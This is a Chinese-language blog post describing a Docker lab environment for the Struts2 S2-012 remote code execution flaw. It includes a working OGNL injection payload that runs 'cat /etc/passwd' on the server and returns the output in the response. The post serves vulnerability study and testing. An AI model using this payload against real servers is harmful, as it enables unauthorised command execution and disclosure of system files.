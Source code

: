```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-012)"
date: 2017-06-13 18:43:55 +0800
image: '/assets/img/'
description: 'Struts2 远程代码执行漏洞(S2-012)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-012)环境'
introduction: 'Struts2 远程代码执行漏洞(S2-012)环境'
---
```

<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>

### 漏洞信息

 * [S2-012 公告](http://struts.apache.org/docs/s2-012.html)
 
参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-012
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-012
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-012/s2-012-1.png)

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-012/s2-012-2.png)

### 其它

感谢 [@zerokeeper](https://github.com/zerokeeper) 贡献
